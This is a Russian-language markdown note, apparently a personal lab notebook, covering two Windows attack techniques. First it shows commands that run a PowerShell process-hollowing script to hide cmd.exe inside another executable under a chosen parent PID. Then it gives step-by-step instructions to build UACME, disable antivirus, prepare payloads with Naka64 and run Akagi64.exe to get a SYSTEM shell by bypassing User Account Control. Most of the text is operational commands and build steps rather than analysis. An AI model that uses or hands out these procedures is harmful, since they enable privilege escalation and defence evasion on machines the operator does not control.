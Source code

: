 # Process Injection
## Process Hollow

Суть техники, кто применяет, как детектировать - 
[Process Injection: Process Hollowing, Sub-technique T1055.012 - Enterprise | MITRE ATT&CK®](https://attack.mitre.org/techniques/T1055/012/)

---
Пример реализации [Process Hollowing with PowerShell - by FuzzySec · GitHub](https://gist.github.com/xenoscr/99370ecffb07f629ae74e7808cb91450)

---

Пример реализации атаки Process Hollowing with PowerShell - by FuzzySec
1. Импорт содержимого Start-Hollow.ps1
 `Import-Module .\Start-Hollow.ps1`
2. Пример запуска
- Sponsor - исполняемый файл для создания пустого процесса, который заполняется полезной нагрузкой
- Hollow - полезная нагрузка
- 
- ParentPID - PID процесс под которым будет происходить сокрытие от глаз глаз пользователя
`Start-Hollow -Sponsor C:\Users\bie\AppData\Local\Programs\ktalk\ktalk.exe -Hollow C:\Windows\System32\cmd.exe -ParentPID 31848`
![[Pasted image 20241004040511.png]]

# UACME 
Утилита
[GitHub - hfiref0x/UACME: Defeating Windows User Account Control](https://github.com/hfiref0x/UACME)
## Сборка и эксплуатация

> [!NOTE]
> 1. Необходим VisualStudio c модулями для разработки C++
> 2. Отключить антивирус
> 3. Должен быть включен UAC
>![[Pasted image 20241004075841.png]]

1. Скачать исходники утилиты
2. Запустить проект в VisualStudio
![[Pasted image 20241004043511.png]]
3. Собрать в Release:
	- Akatsuki x64
	- Fubuki x64, x32
	- Naka x64
![[Pasted image 20241004053119.png]]
4. Провести подготовку полезной нагрузки с помощью Naka, который будет располагаться в 
```
UACME-3.6.6\UACME-3.6.6\Source\Naka\output\x64\Release
```
Команды для подготовки полезной нагрузки
```
.\Naka64.exe ..\..\..\..\Akatsuki\output\x64\release\Akatsuki64.dll
.\Naka64.exe ..\..\..\..\Fubuki\output\x64\Release\Fubuki64.dll
.\Naka64.exe ..\..\..\..\Fubuki\output\Win32\Release\Fubuki32.dll
.\Naka64.exe ..\..\..\..\Kamikaze\Kamikaze.msc
```
5. После подготовки нагрузок в папке Naka будут выходные файлы
![[Pasted image 20241004054404.png]]
6. Сгенерировать ключи 
`.\Naka64.exe --stable`
![[Pasted image 20241004054642.png]]
8. Заменить в папке Akagi\bin файлы с нулевым размером на сгенерированные Naka
`UACME-3.6.6\UACME-3.6.6\Source\Akagi\bin`
![[Pasted image 20241004054913.png]]
9. Собрать Akagi
10. Запустить собранный Akagi64.exe, аргументы:
	1. номер способа обхода UAC
	2. запускаемый файл от имени Системы
```
UACME-3.6.6\UACME-3.6.6\Source\Akagi\output\x64\Release> .\Akagi64.exe 23 C:\Windows\System32\cmd.exe
```
![[Pasted image 20241004080852.png]]
